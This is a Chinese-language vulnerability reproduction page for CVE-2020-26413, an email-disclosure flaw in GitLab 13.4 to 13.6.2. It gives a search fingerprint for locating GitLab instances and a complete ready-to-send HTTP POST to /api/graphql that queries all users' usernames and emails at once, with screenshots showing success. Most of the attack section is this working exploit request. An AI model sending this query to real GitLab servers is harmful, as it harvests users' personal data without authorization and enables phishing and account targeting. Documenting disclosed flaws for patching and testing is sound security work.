 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

<a-checkbox checked>GitLab 13.4 - 13.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GitLab"</a-checkbox></br>

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

<a-alert type="success" message="https://gitlab.com/gitlab-org/gitlab/-/issues/244275" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

<a-alert type="success" message="访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/gitlab-2.png)



Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱



![img](../../../.vuepress/public/img/gitlab-3.png)



发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![img](../../../.vuepress/public/img/gitlab-4.png)



成功返回数据，造成 Gitlab的用户邮箱信息泄露

